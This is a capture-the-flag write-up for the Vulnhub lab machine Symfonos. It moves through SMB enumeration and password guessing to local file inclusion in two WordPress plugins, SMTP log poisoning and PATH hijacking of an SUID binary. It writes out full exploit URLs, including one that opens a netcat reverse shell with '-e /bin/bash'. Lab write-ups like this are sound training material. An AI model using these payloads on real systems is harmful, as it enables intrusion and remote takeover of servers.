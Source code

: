 # Vulnhub-Symfonos

## Rustscan

```bash

22/tcp  open  ssh         OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:    
|   2048 ab:5b:45:a7:05:47:a5:04:45:ca:6f:18:bd:18:03:c2 (RSA)
|   256 a0:5f:40:0a:0a:1f:68:35:3e:f4:54:07:61:9f:c6:4a (ECDSA)
|_  256 bc:31:f5:40:bc:08:58:4b:fb:66:17:ff:84:12:ac:1d (ED25519)
25/tcp  open  smtp        Postfix smtpd
|_smtp-commands: symfonos.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=symfonos              
| Subject Alternative Name: DNS:symfonos
| Not valid before: 2019-06-29T00:29:42
|_Not valid after:  2029-06-26T00:29:42       
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.5.16-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:41:21:96 (Oracle VirtualBox virtual NIC)
Service Info: Hosts:  symfonos.localdomain, SYMFONOS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## PROT 139/445 (SMB)

I ran `smbmap` to see on which shares I have read access as anonmyous user

<img src="https://i.imgur.com/dbyBxDw.png"/>

So we only have read access to `anomyous`share

<img src="https://imgur.com/FdO20oR.png"/>

We can see there a text so let's download it using `GET`

<img src="https://imgur.com/IeusVl4.png"/>

<img src="https://imgur.com/qxTHIAi.png"/>

This looks like some potential passwords we can use when brute forcing we also have a username `zeus`

Let's run `enum4linux-ng` to enumerate for users

<img src="https://imgur.com/T3xSJ7p.png"/>

<img src="https://imgur.com/T3xSJ7p.png"/>

We only get one user `helios`


## PORT 80 (HTTP)

<img src="https://imgur.com/aHcmbq9.png"/>

On the web server we see this weird image

<img src="https://imgur.com/Gyig2yy.png"/>

There's nothing in the source either , so I started to fuzz for files and directories using `dirsearch`

<img src="https://imgur.com/coUQn2Z.png"/>

But found nothing , so brute forcing is the last resort this is what I'll be doing , we have a username so we could try to brute force against those 3 passwords , if that fails I'll move to rockyou.txt

<img src="https://imgur.com/7ZEomBJ.png"/>

It failed so let's try these 3 passwords on smb as `helios`

<img src="https://i.imgur.com/UFUcygS.png"/>

The first password failed but the second worked and we can access his share now

<img src="https://imgur.com/WkAdtRa.png"/>

After reading `todo.txt` we get a hidden directory

<img src="https://i.imgur.com/23u1uXW.png"/>

<img src="https://imgur.com/mdJ0ngq.png"/>

So this is a wordpress site but the css isn't loaded , we can fix it by seeing where it's grabbing the css file from

<img src="https://i.imgur.com/lQat8r3.png"/>

We need to add a domain `symfonos.local` in `/etc/hosts` file

<img src="https://imgur.com/J3Cg1QD.png"/>

<img src="https://imgur.com/75qfE8k.png"/>

Now it looks better so let's enumerate the wordpress site for that I am going to use `wpscan`

<img src="https://imgur.com/38Utpvl.png"/>

<img src="https://imgur.com/4pgSsPo.png"/>

We have a user `admin` so we could do brute forcing for his password

Also I'll run a scan for enumerating plugins being used on the wordpress site

<img src="https://imgur.com/iJgPymi.png"/>

<img src="https://i.imgur.com/nPc5Dd1.png"/>

We can see two plugins , `mail-masta` and `site-editor`, first I am going to search on mail-masta for any exploits

<img src="https://imgur.com/U13HStT.png"/>

And it seems we found a LFI vulnerability exploit in mail-masta

<img src="https://imgur.com/Qkv2sRC.png"/>

Let's give it a try in reading `/etc/passwd` file through LFI

<img src="https://imgur.com/UBneKm6.png"/>

And boom we got LFI vulnerability here

The other plugin is also vulnerable to LFI

<img src="https://imgur.com/URUgfo1.png"/>

<img src="https://imgur.com/7GDfEFc.png"/>

<img src="https://imgur.com/tJX3Wsa.png"/>

Now we know there that port 25 which is smtp is open so we could see if we could poision it's log files ,so visiting hacktricks I found that it's possible

<img src="https://imgur.com/tZARWq4.png"/>


```
http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/helios
```

<img src="https://imgur.com/ldtXag7.png"/>

We can read the logs so it's possbile, I followed this article in order to do smtp log poisioning

https://liberty-shell.com/sec/2018/05/19/poisoning/

<img src="https://i.imgur.com/WIp0Tis.png"/>

The sender's mail is just I saw from the logs so I putted there but that important thing to note here is the subject we are putting which is the GET paramtere being executed as shell command. Now if add a paramter along the path of log file

```
http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/helios&pwn=id
```

<img src="https://i.imgur.com/MEus7gW.png"/>

So let's just get a shell with `netcat`

```
http://symfonos.local/h3l105/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/var/mail/helios&hello=nc 192.168.1.2 2222 -e /bin/bash
```


<img src="https://imgur.com/MyNf8DC.png"/>


Now we check if we have permissions to run any command as sudo with `sudo -l`

<img src="https://imgur.com/S3hqUsB.png"/>

No sudo : \

Let's check for any SUID binaries

<img src="https://i.imgur.com/A7xevfb.png"/>

We found `/opt/statuscheck`. On running the binary it results to making a request

<img src="https://i.imgur.com/uzopiXR.png"/>

Let's further analyze the binary if strings is installed on the machine

<img src="https://imgur.com/vWJH99c.png"/>

It is available so we can see what the binary is doing

<img src="https://i.imgur.com/rYBq00N.png"/>

The binary is using a command `curl http://localhost` so we can exploit PATH variable here by making a fake curl binary include `bash` there and including that binary in the PATH variable

<img src="https://imgur.com/ONbshC2.png"/>

<img src="https://imgur.com/e0M1mtG.png"/>

<img src="https://imgur.com/FYNT8NQ.png"/>

However if we run it , we won't get a root shell

<img src="https://imgur.com/WmDykEf.png"/>

I then tried to make bash a SUID

<img src="https://imgur.com/8qRsPL6.png"/>

<img src="https://imgur.com/bKQug8Z.png"/>

It gave me an error, so I was not sure why this wasn't working, so I then just removed the shebang line

<img src="https://imgur.com/cjk76z7.png"/>

Ran it again 

<img src="https://imgur.com/WXIH4qB.png"/>

And boom we have made bash a SUID

<img src="https://imgur.com/Ys3CEDB.png"/>


